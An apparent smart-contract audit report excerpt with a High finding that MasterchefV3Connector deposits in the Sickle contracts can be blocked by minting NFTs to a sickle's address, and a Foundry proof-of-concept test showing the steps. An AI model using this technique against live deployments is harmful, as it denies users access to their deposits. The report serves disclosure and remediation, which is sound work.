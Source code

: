 ## Findings Explanation

Findings are broken down into sections by their respective impact:

- Critical, High, Medium, Low Impact
  - These findings range from attacks that may cause loss of funds, impact control/ownership of the contracts, or cause any unintended consequences/actions that are outside the scope of the requirements.
- Gas savings
  - Findings that can improve the gas efficiency of the contracts.
- Informational
  - Findings including recommendations and best practices.

---

## Critical Findings

None.

## High Findings

### 1. High - `MasterchefV3Connector` deposits can be blocked

#### Technical Details

In `MasterchefV3Connector`'s `deposit()` there is a [check if the balance of the sickle is equal to 1, and if not, a revert occurs](https://github.com/vfat-io/sickle-contracts/blob/4f21de8cc1269dfbc05a3eeb5e792ec82012f11d/contracts/connectors/MasterchefV3Connector.sol#L32-L34). This can be DOS'd by minting NFTs to the sickle address such that a sickle can never deposit.

See the following POC using `PancakeV3.t.sol` for setup:

```solidity
function test_brick_deposit() public {
        // a random address w/ a lot of usdc and usdt
        address usdc_whale = 0x40ec5B33f54e0E8A33A975908C5BA1c14e5BbbDf;
        vm.startPrank(usdc_whale);
        // usdc but could be any token
        IERC20(0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48).approve(address(Pancake.NFT_MANAGER), type(uint256).max);
        // usdt but could be any token
        SafeERC20.safeIncreaseAllowance(IERC20(0xdAC17F958D2ee523a2206206994597C13D831ec7), address(Pancake.NFT_MANAGER), type(uint256).max);

        INonfungiblePositionManager.MintParams memory params = INonfungiblePositionManager.MintParams({
            token0: address(0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48),
            token1: address(0xdAC17F958D2ee523a2206206994597C13D831ec7),
            fee: 100,
            tickLower: -9,
            tickUpper: 12,
            amount0Desired: 6177807, // can be smaller than this, some random amount taken from an on-chain tx.
            amount1Desired: 7399999,
            amount0Min: 0,
            amount1Min: 0,
            recipient: address(ctx.sickle), // mint to the sickle so it can't be deposited to anymore
            deadline: block.timestamp + 60
        });

        INonfungiblePositionManager(Pancake.NFT_MANAGER).mint(params);

```